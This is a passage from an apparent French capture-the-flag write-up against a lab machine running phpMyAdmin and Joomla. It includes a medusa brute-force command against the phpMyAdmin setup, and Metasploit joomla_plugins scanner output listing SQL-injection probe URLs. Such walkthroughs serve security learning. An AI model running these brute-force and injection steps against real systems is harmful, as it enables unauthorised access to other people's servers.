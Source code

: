 Les exploits de *Metasploit* échouent aussi.  

J'ai testé énormément d'attaques brute-force par exemple en attaquant l'accès au setup de *phpMyAdmin* :  

```bash
medusa -h 192.168.1.91 -U dico.txt -P candidates.txt -m DIR:phpmyadmin/setup -M http
```

Et aussi avec un script fait maison pour le `check.php` ainsi que des scripts pour essayer de trouver d'autres fichiers + tentatives d'injection dans les entêtes HTTP.  

Au final j'ai même réussi à faire crasher le serveur *MySQL* en backend :D ce qui m'a poussé à chercher la précieuse astuce.  

Une fois le port 666 ouvert (on relance des scans, jusqu'à avoir de la chance, c'est comme au loto), tout va plus vite.  

On tombe sur une installation *Joomla* (un site sur lequel on voit une signature _Joomla templates_ en bas. *Metasploit* a plusieurs modules pour ce CMS :  

```
msf> use auxiliary/scanner/http/joomla_plugins
msf auxiliary(joomla_plugins) > show options

Module options (auxiliary/scanner/http/joomla_plugins):

   Name       Current Setting                                               Required  Description
   ----       ---------------                                               --------  -----------
   PLUGINS    /data/metasploit-4.9/apps/pro/msf3/data/wordlists/joomla.txt  yes       Path to list of plugins to enumerate
   Proxies                                                                  no        Use a proxy chain
   RHOSTS                                                                   yes       The target address range or CIDR identifier
   RPORT      666                                                           yes       The target port
   TARGETURI  /                                                             yes       The path to the Joomla install
   THREADS    1                                                             yes       The number of concurrent threads
   VHOST                                                                    no        HTTP server virtual host

msf auxiliary(joomla_plugins) > set RHOSTS 192.168.1.91
RHOSTS => 192.168.1.91
msf auxiliary(joomla_plugins) > exploit

[+] 192.168.1.91:666 - Plugin: /administrator/ 
[+] 192.168.1.91:666 - Plugin: /administrator/index.php?option=com_djartgallery&task=editItem&cid[]=1'+and+1=1+--+ 
[+] 192.168.1.91:666 - Plugin: /administrator/index.php?option=com_searchlog&act=log 
[+] 192.168.1.91:666 - Plugin: /components/com_banners/ 
[+] 192.168.1.91:666 - Page: /index.php?option=com_banners
[+] 192.168.1.91:666 - Plugin: /components/com_content/ 
[+] 192.168.1.91:666 - Page: /index.php?option=com_content
[+] 192.168.1.91:666 - Plugin: /components/com_mailto/ 
[+] 192.168.1.91:666 - Plugin: /components/com_poll/ 
[+] 192.168.1.91:666 - Plugin: /components/com_search/ 
[+] 192.168.1.91:666 - Plugin: /components/com_user/controller.php 
[+] 192.168.1.91:666 - Plugin: /components/com_weblinks/ 
[+] 192.168.1.91:666 - Page: /index.php?option=com_weblinks
[+] 192.168.1.91:666 - Plugin: /includes/joomla.php 
[+] 192.168.1.91:666 - Plugin: /index.php?option=com_abc&view=abc&letter=AS&sectionid=' 
[+] 192.168.1.91:666 - Vulnerability: Potential SQL Injection
```
